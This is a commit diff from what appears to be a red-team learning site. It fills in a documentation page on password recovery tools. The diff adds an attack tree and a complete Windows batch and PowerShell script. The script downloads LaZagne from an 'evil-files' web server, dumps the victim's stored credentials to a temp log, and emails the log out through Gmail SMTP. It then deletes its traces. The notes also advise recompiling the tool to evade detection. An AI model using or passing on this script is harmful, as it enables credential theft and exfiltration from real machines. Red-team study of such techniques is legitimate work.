

Before and after one commit to tymyrddin/red-basic, a Sphinx documentation site: the page built from source/docs/malware/Password-recovery.md, in a window 1280 px wide and 1244 px high. Shown: the whole window at 87% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Payloads

````diff
--- a/source/docs/malware/Password-recovery.md
+++ b/source/docs/malware/Password-recovery.md
@@ -1,8 +1,48 @@
 # Password recovery tool
 
-In progress
+## Attack tree
+
+```text
+1 Passwords
+    1.1 Download password recovery tool such as LazAGne (AND)
+    1.2 Set permissions to 777 (direct download URL) (AND)
+    1.3 Set up (or start) a webserver (AND)
+    1.4 Create gmail account with app password (in Security section)
+    1.5 Upload password recovery tool to webserver /var/www/html/evil-files or other from target reachable location (AND)
+    1.6 Make a (.bat extension) script that downloads the password recovery tool, execute it and send an email with the result (AND)
+    ...
+```
 
 ## Notes
 
 * LazaGna needs to be executed on target computer and displays logs on screen or stores them in a local file.
 * Use a file that downloads LazAgne, execute it and send an email with the result back.
+
+```text
+@echo off
+
+set downloadURL=https://<domain>/evil-files/laZagne.exe
+set email=email@gmail.com
+set password=PASSWORD
+
+set exeFile=%TEMP%\proc.exe
+set logFile=%TEMP%\proclog.txt
+set arguments=all
+
+
+powershell (new-object System.Net.WebClient).DownloadFile('%downloadURL%','%exeFile%');
+%exeFile% %arguments% > %logFile%
+
+del %exeFile%
+
+powershell $SMTPServer = 'smtp.gmail.com';$SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587);$SMTPInfo.EnableSsl = $true;$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('%email%', '%password%');$ReportEmail = New-Object System.Net.Mail.MailMessage;$ReportEmail.From = '%email%';$ReportEmail.To.Add('%email%');$ReportEmail.Subject = 'Lazagne Report';$ReportEmail.Body = 'Lazagne report in the attachments.';$ReportEmail.Attachments.Add('%logFile%');$SMTPInfo.Send($ReportEmail);
+
+del %logFile%
+```
+
+## Tools
+
+* [LaZagnE](https://github.com/0x0ff537/LaZagne/)
+* [LAzAgne wiki](https://github.com/AlessandroZ/LaZagne/wiki)
+* [Compile Lazagne](https://github.com/AlessandroZ/LaZagne/wiki/How-to-compile) (because the releases are detectable)
+* [Powershell scripting](https://docs.microsoft.com/en-us/powershell/scripting/samples/sample-scripts-for-administration?view=powershell-7.2)
````
Also changed, not shown: source/docs/malware/C2.md (+9 -4 lines), source/docs/malware/Keylogger.md (+15 -3 lines).
